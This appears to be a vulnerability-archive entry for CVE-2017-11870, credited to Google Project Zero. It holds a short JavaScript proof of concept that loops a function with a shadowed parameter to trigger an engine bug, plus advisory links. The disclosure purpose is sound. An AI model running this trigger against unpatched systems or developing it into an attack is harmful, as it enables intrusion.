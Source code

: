 # CVE-2017-11870

- Fix: Nov 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function f(x) {
    arguments;

    {
        function x() {
        }
    }
}

for (let i = 0; i < 10000; i++)
    f();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11870)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1367)
